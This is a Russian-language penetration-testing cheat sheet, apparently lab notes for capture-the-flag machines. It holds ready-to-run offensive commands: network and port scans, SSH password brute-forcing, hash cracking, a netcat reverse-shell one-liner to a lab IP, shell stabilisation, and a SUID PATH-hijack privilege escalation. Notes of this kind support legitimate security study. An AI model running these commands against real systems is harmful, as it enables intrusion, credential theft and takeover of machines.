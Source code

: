#nmap

Сканирование сети:

`nmap -sn 172.16.0.0/16`

Сканирование портов Xmas:

`sudo nmap -p1-999 -sX -Pn --stats-every 30s -vv 10s 10.10.244.209`

Сканирование портов tcp SYN:

`sudo nmap -p1-5000 -sS -Pn --stats-every 30s -vv 10s 10.10.244.209`

**Скрипты**

Сканирование стандартными скриптами:

```
sudo nmap -sC -sV -oN nmap/rootme <IP>
-sC : Default scripts
-sV : Version detection
-oN : Output to be stored in the directory ‘nmap’
```

Справка по скрипту

`nmap --script-help <script-name>`

Поиск установленных скриптов:

`grep "ftp" /usr/share/nmap/scripts/script.db`

Установка скрипта:

`sudo wget -O /usr/share/nmap/scripts/<script-name>.nse https://svn.nmap.org/nmap/scripts/<script-name>.nse`

`nmap --script-updatedb`

Проверка анонимного FTP логина:

`sudo nmap --script=ftp-anon -p21 10.10.200.205 -vv -Pn`

Проверка SMB:
`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>`

RPC:

`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.38.0`

#gobuster

Сканирование директорий:

```
gobuster dir -u <IP> -w /usr/share/wordlists/dirb/common.txt
-x .php - для указаня расширения
```

#SSH

Перебор паролей SSH:

`sudo hydra -P /usr/share/wordlists/rockyou.txt -l <username> ssh://<IP>`


#Passwords

Поиск хеша

`hash-identifier`

Извлечение хеша из SSH ключа:

`ssh2john kay_id_rsa > kay_id_rsa.hash`

Подбор пароля john:

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt kay_id_rsa.hash`

hashcat:

`./hashcat -a 0 -m 1600 --show <file_with_hash> /usr/share/wordlists/rockyou.txt`

#PHP

Reverse shell

```commandline
Скрипт по адресу:
https://github.com/pentestmonkey/php-reverse-shell

Указываем в крипте ip и порт и запускаем прослушивание:
nc -lvnp 9001

Далее запускаем скрипт на удаленной машине.

Для создания стабильного shell:
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
export TERM=xterm
```

#Privilege escalation (эскалация привилегий)

Страница со сборником скриптов:

`https://gtfobins.github.io/`

#Reverse Shell

Указываем в крипте ip и порт и запускаем прослушивание:
`nc -lvnp 9001`

Стабилизация консоли:
```commandline
python -c "import pty; pty.spawn('/bin/bash')"
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash';"

^Z
stty raw -echo && fg
export TERM=xterm-256-color
```

Запуск простого http сервера:
`sudo python -m http.server 80`

Shells:

```commandline
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.54 1234 >/tmp/f
```

#Скрытые разделы в файла

Поиск уязвимостей:

`https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`

Поиск запускаемых заданий:

`https://github.com/DominicBreuker/pspy`

Поиск скрытых директорий:

`binwalk <file_path>`

Извлечение скрытых файлов:

```
binwalk <file_path> -e
или
steghide extract -sf <file_path>
```

Поиск файлов SUID:

`find / -perm -u=s -type f 2>/dev/null`

Вариант повышения привилегий через файл SUID:

```commandline
echo /bin/sh > /tmp/curl
chmod 777 /tmp/curl
cd /tmp
export PATH=/tmp:$PATH
/usr/bin/menu
```

